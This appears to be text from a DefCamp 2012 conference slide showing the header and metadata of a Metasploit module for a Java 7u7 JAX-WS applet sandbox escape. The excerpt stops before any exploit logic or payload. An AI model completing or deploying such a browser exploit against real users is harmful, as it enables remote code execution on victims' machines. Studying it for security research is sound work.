

DEFCAMP
2012
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#   http://metasploit.com/
##

require 'msf/core'
require 'rex'

class Metasploit3 < Msf::Exploit::Remote
    Rank = ExcellentRanking

    include Msf::Exploit::Remote::HttpServer::HTML

    include Msf::Exploit::Remote::BrowserAutopwn
    autopwn_info({ :javascript => false })

    def initialize( info = {} )
        super( update_info( info,
            'Name'          => 'Java Applet JAX-WS Remote Code Execution',
            'Description'   => %q{
                    This module abuses the JAX-WS classes from a Java Applet to run arbitrary Java
                code outside of the sandbox as exploited in the wild in November of 2012. The
                vulnerability affects Java version 7u7 and earlier.
            },
            'License'       => MSF_LICENSE,
            'Author'        =>
                [
                    'Unknown', # Vulnerability Discovery
                    'juan vazquez' # metasploit module
                ]
...................................................................................